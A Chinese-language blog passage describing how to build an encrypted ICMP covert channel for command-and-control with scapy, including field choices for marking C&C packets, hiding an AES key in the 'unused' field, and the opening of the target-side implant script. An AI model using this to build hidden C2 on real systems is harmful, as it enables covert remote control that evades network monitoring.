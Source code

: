 又看icmp协议，type(类型)和code(编码)控制了报文的类型和作用。虽然也可控但类型少且常用的也只有0800(回声请求，也就是ping)

<img src='https://0xfay.github.io/public/image/203413.jpg'>

checksum(校验码)由字段包含有从 ICMP 报头和数据部分计算得来的，用于检查错误的数据，也就不算可控。

所以剩下的就只有ID和Sequence（两个都用于在 Echo Reply 类型的消息中返回该字段）

数据区域肯定是可控的，而且长度没啥限制（基本能满足数据传输了）。当年死亡之ping能发送超65500长度限制的包，我卢本伟发个几百bit的包不是问题（大雾

<img src='https://0xfay.github.io/public/image/162338.jpg'>

### 数据收发

收发就用scapy本身的函数就行。

收函数用sniff，sniff中的filter过滤，lfilter用回调函数过滤丢弃不符合条件的包（可以自己写一个判断函数），count设置收的数量...用这些来过滤得到我们想要的做了标记的包

`result = sniff(count=1,filter="icmp",lfilter=lambda x:check_icmp(x[0]))`

这是我的一个接收函数，check_icmp是我自定的一个用于判断是否满足条件的函数

发就用sendp就行，没什么好说的


现在我们只需要一个标记辨别这确实是c&c服务器发过来的指令，我的思路是从上面的可控量里选一个。

同时，改变icmp类型为不是0800的话是不会有返回包的，或许还可以减少不必要的资源消耗？

但这里我就踩坑了，注意，用没有响应的包的话（譬如类型9，类型10），icmp协议中的id和seq会被替换为unused

<img src='https://0xfay.github.io/public/image/113943.jpg'>

图中上面一个包是类型8，下面一个包是类型9，很明显类型9并没有id和seq（合情合理，因为并没有返回包，所以要id和seq没有用）。这里unused=10是因为我改了，unused默认是0，不过也证明unused是可控的。

这个unused好像没有大小限制？虽然是这么说，不过在长度为10左右过后打包就会报错了，猜测是转为16进制过后超过8位限制了，测试后最大值为4294967295,即16进制的ffffffff。

<img src='https://0xfay.github.io/public/image/114832.jpg'>

同时也学到点经验...你构造的包和你发出去后包的样子其实还是不一样的，所以要调试还是得完整的调试。

### 流量加密

我采用了aes加密，将密钥藏在unused中。当然我觉得更好的还是用类型8中的id和seq，一个用来传密钥，一个用来当c&c服务器特征码。不过会有返回包..处理起来更麻烦些，我就直接用类型9了。

其余加密方式也可以，根据情况选择。主要就是为了流量中不会有明文出现。

## 代码区域

目标机

```
from scapy.all import *
from Crypto.Cipher import AES
import os


global ip_target
#目标机器ip
ip_target = '47.112.188.203'

BLOCK_SIZE = 16  # Bytes
pad = lambda s: s + (BLOCK_SIZE - len(s) % BLOCK_SIZE) * \
                chr(BLOCK_SIZE - len(s) % BLOCK_SIZE)
unpad = lambda s: s[:-ord(s[len(s) - 1:])]

def check_icmp(packet):
    if packet.haslayer(ICMP):
        if packet[ICMP].type == 9:
            return True
```